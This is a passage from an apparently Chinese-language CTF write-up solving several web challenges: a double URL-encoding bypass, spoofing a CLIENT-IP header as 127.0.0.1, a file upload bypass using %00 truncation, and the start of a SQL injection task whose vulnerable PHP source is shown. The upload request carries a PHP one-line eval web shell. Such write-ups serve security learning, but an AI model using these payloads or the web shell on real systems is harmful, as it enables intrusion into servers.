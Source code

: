 ```php
```
审计后得知url二次编码绕过
`url?id=%25%36%38%25%36%31%25%36%33%25%36%62%25%36%35%25%37%32%25%34%34%25%34%61`
<Br />

### 伪装者
提示需要本地登陆，需要猜测该站点检测是哪里的IP地址和过滤规则
尝试后发现，改变HTTP包的请求头

```
GET /web4/xxx.php HTTP/1.1
Host: chinalover.sinaapp.com
CLIENT-IP: 127.0.0.1
```
得到flag

<Br />

### Header
抓取HTTP报文，查看响应头，得到flag
<Br />

### 上传绕过
上传一个普通文件后，发现返回页面中带有一些参数
查看请求体，发现文件中规定了文件上传路径，测试后发现并且没有限制
尝试%00截断在/uploads/后面
成功，拿到flag

```
POST /web5/21232f297a57a5a743894a0e4a801fc3/upload.php HTTP/1.1
Host: teamxlc.sinaapp.com
Content-Type: multipart/form-data; boundary=---------------------------19468279513437
Content-Length: 323

-----------------------------19468279513437
Content-Disposition: form-data; name="dir"

/uploads/这里截断
-----------------------------19468279513437
Content-Disposition: form-data; name="file"; filename="php.jpg"
Content-Type: image/jpeg

<?php
@eval($_POST[byxs]);
?>

-----------------------------19468279513437--
```

感觉上传绕过题目大多还是心中有代码，和根据依稀信息或者猜测别人如果做过滤之类，或者服务解析漏洞。
<Br />

### SQL注入1
进入页面，直接看源码
```php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
```